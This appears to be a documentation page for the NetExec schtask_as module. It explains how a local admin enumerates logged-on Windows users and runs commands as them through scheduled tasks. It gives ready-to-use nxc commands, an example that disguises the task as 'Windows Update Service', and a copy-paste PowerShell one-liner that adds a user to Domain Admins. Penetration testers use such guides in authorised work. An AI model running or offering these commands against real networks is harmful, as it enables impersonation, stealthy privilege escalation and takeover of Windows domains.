 ```yaml
---
description: >-
  Use Sessions from logged-on Users to execute arbitrary commands using
  schtask_as
---
```


# 🆕 Impersonate logged-on Users

{% hint style="warning" %}
You need at least local admin privilege on the remote target
{% endhint %}

The Module `schtask_as` can execute commands on behalf of other users which have sessions on the target, thanks to the contribution from [@Defte\_](https://twitter.com/Defte\_).

### 1. Enumerate logged-on users on your Target

There are two ways you can enumerate logged on users on a Windows machine:

* --loggedon-user

```bash
nxc smb <ip> -u <localAdmin> -p <password> --loggedon-users
```

* --qwinsta

```bash
nxc smb <ip> -u <localAdmin> -p <password> --qwinsta
```

Note that these two options do not output the same result at all. Indeed --loggedon-users returns the list of logged users as well as to which DC they connected to.
The --qwinsta returns the windows interactive sessions that are running on the system. Having a loggedon users doesn't necessarly mean that you can impersonate it via schtask_as, indeed that module requires the user you are targetting to have a Windows interactive session. As such, if you really want to be sure you can impersonate someone with that module, run the --qwinsta option.

### 2. Execute commands on behalf of other users

```bash
nxc smb <ip> -u <localAdmin> -p <password> -M schtask_as -o USER=<logged-on-user> CMD=<cmd-command>
```

<figure><img src="../.gitbook/assets/schtask_as.png" alt=""><figcaption></figcaption></figure>

### Module options:

```bash
CMD            Command to execute
USER           User to execute command as
BINARY         OPTIONAL: Upload the binary to be executed by CMD
TASK           OPTIONAL: Set a name for the scheduled task name
FILE           OPTIONAL: Set a name for the command output file
LOCATION       OPTIONAL: Set a location for the command output file (e.g. '\tmp\')
```

Example:

```bash
nxc smb [] -u [] -p [] --local-auth -M schtask_as -o USER=[target] CMD="whoami" TASK="Windows Update Service" FILE="update.log" LOCATION="\\Windows\\Tasks\\"
```

Custom command to add a user to the domain admin group for easy copy\&pasting:

```powershell
powershell.exe \"Invoke-Command -ComputerName DC01 -ScriptBlock {Add-ADGroupMember -Identity 'Domain Admins' -Members USER.NAME}\"
```

Note that the BINARY option allows you specifying a local binary that will first be uploaded to the remote server, executed and cleared. This allows us not having to upload the binary and then run the module.
